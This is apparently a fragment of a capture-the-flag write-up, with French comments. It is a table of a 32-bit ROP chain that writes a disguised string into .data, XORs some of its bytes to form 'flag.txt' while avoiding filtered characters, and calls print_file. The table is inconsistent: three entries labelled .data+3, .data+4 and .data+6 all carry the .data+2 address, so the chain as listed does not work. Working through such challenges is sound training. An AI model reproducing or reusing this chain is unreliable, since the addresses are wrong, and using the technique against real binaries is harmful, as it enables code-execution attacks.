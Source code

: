 
| ROP entry | comment |
| ----------- | ------- |
|_____________|Ecriture de "flbd-t{t" dans data|
| 0x080485b9 | pop esi ; pop edi ; pop ebp ; ret |
| b"flbd" | pour esi |
| 0x0804a018 | .data pour edi|
| 0 | sans objet pour ebp |
| 0x0804854f | mov dword ptr [edi], esi ; ret |
| 0x080485b9 | pop esi ; pop edi ; pop ebp ; ret |
| b"-t{t" | pour esi |
| 0x0804a018 | .data pour edi|
| 0 | sans objet pour ebp |
| 0x0804854f | mov dword ptr [edi], esi ; ret |
|_____________|Xor data[2] avec 3|
| 0x0804839d | pop ebx ; ret|
| 3 |  pour `bl` |
| 0x080485bb | pop ebp ; ret |
| 0x0804a01a | .data+2 pour ebp|
| 0x08048547 | xor byte ptr [ebp], bl ; ret |
|_____________|Xor data[3] avec 3|
| 0x080485bb | pop ebp ; ret |
| 0x0804a01a | .data+3 pour ebp|
| 0x08048547 | xor byte ptr [ebp], bl ; ret |
|_____________|Xor data[4] avec 3|
| 0x080485bb | pop ebp ; ret |
| 0x0804a01a | .data+4 pour ebp|
| 0x08048547 | xor byte ptr [ebp], bl ; ret |
|_____________|Xor data[6] avec 3|
| 0x080485bb | pop ebp ; ret |
| 0x0804a01a | .data+6 pour ebp|
| 0x08048547 | xor byte ptr [ebp], bl ; ret |
|_____________|Appel de print_file|
| 0x08048538 | usefulFunction+14  |
| 0x0804a018 | .data avec "flag.txt"|

